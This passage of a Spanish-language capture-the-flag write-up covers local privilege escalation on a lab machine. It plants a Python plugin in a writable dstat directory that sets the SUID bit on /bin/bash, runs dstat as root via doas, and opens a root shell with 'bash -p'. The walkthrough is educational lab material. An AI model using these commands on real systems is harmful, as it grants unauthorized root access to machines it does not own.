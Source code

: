 Listamos el contenido de la siguiente ruta:

```bash
player@soccer:~$ ls -la /usr/local/share/dstat
total 8
drwxrwx--- 2 root player 4096 Mar 14 16:21 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```

Podemos ver que tenemos capacidad de escritura en la ruta «share/dstat», donde se almacenan los Plugins.

Lo que vamos a hacer es crear un archivo Python, y luego ejecutarlo como si fuera un Plugin, ya que tenemos permisos en esta ruta.

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
```

```bash
doas -u root /usr/bin/dstat --privesc &>/dev/null
```

```bash
bash -p
```
Aquí tenemos la Root

```bash
bash-5.0# ls /root/root.txt
/root/root.txt
bash-5.0# 
```